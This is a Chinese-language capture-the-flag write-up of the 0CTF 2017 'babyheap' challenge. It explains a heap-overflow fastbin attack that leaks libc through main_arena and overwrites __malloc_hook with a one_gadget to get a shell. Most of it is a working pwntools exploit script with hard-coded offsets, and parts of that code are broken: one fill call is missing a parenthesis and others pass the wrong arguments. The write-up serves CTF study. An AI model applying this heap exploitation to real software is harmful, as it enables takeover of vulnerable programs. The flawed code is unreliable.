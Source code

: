 题目四个功能 alloc fill free dump

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/1.png)

（fast chunk 没有标志位 没有bk 不会合并）

题目分析

    考察点：fastbin attack

    漏洞：chunk的填充范围可大于chunk的大小，覆盖到下面的chunk

    求出libc_base，修改malloc_hook内容为shellcode，执行malloc()，等于执行getshell

第一步 求出libc_base

    两种方法

  第一种  伪造一个大chunk a覆盖下一个大于0x80的chunk b，free掉下一个chunk b，
  然后show伪造的chunk a，得到chunk b的fd，fd指向main_arena

    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))

	
    新建两个块，用chunk0覆盖掉chunk1的头

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/2.png)
	
    alloc(0x100)
    fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
    alloc(0x50)
    free(2)
    dump(1)
    
  新建一个0x100的chunk2，填充chunk2，伪造一个chunk头，距离跟chunk1刚好适合修改了的chunk1的大小
  这时我们把chunk1 free掉再申请，那么chunk1真的变成0x60大了，而且还刚好覆盖掉chunk2的fd和bk的位置。
  利用chunk1修复chunk2的头，再申请一个chunk3，以防chunk2被合并，把chunk2 free掉，再把chunk1 dump出来，main_arena就出来了


![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/3.png)
![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/4.png)



    求偏移：0x7f5d2bec3b78 - 0x 7f5d2bb28000 = 0x39bb78

    (靶机偏移是0x3a5678   与我机差值0x9b00)

  第二种  不同指针指向同一chunk，一个free，另一个show，便得到main_arena地址


    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    free(1)
    free(2)
    payload = p64(0)*3+p64(0x21) + p64(0)*3+p64(0x21) + p8(0x80)
    #借用chunk0修改chunk2的fd指向chunk4
    fill(0, payload)
    payload = p64(0)*3+p64(0x21) + p64(0x21)
    #借用chunk3修改chunk4的头
    fill(3, payload)
    alloc(0x10)
    alloc(0x10)
    #这时指针 2 和 4 同时指向chunk4
    payload = p64(0)*3+p64(0x21) + p64(0x91)
    #借用chunk3恢复chunk4的头
    fill(3, payload)
    alloc(0x80)
    free(4)
    dump(2)
    #指针2就把chunk4的内容dump出来了

第二步 修改malloc_hook内容

   free掉两个chunk，然后修改chunk的fd为malloc_hook的地址，但系统会检测fd指向chunk的头size是否适合，所以我们找找malloc_hook地址前的数据，发现把地址偏移一下，便可构造出size为0x7f的chunk头，所以fd的内容应为malloc_hook地址加偏移量


 ![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/5.png)

    malloc_hook偏移为0x3a5610


 ![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/6.png)

   可见，malloc_hook上方存在0x7f，可以伪造头，只要把地址偏移一下就可以通过检查建立一个0x60的chunk，然后填充数据修改malloc内容。  偏移为 0x10+0x8+0x3+0x8。

 ![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/7.png)


   shellcode依然由one_gadget取得

 ![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20170ctfbabyheap/8.png)


执行alloc，就会getshell。

exp：

    from pwn import *
    import sys
    
    def alloc(size):
      r.recvuntil("Command: ")
      r.sendline("1")
      r.recvuntil("Size: ")
      r.sendline(str(size))
     
    def fill(idx, length, content):
      r.recvuntil("Command: ")
      r.sendline("2")
      r.recvuntil("Index: ")
      r.sendline(str(idx)
      r.recvuntil("Size: ")
      r.sendline(str(length))
      r.recvuntil("Content: ")
      r.send(content)
          
    def free(idx):
      r.recvuntil("Command: ")
      r.sendline("3")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))
                 
    def dump(idx):
      r.recvuntil("Command: ")
      r.sendline("4")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))  
      r.recvuntil("Content: \n")
      return r.recvline()[:-1]
                 
    def exploit(r):
       alloc(0x60)
       alloc(0x40)
       fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))
       alloc(0x100)
       fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
       free(1)
       alloc(0x60)
       fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
       alloc(0x50)
       free(2)
       libcbase = u64(dump(1)[-8:]) - 0x3a5678
       
       malloc_hook = libcbase + 0x3a5610
       execve_addr = libcbase + 0x41374
       free(1)          
       payload = 'a'*0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
       fill(0, 0x60+0x10+0x10, payload)
       alloc(0x60)
       alloc(0x60)         
       payload = p8(0*3) + p64(0)*2 + p64(execve_addr)
       fill(2, len(payload), payload)
       alloc(0x20)
                 
    r = process("./babyheap")
    #r = remote()
    #print util.proc.pidof(r)
    pause()
    exploit(r)             



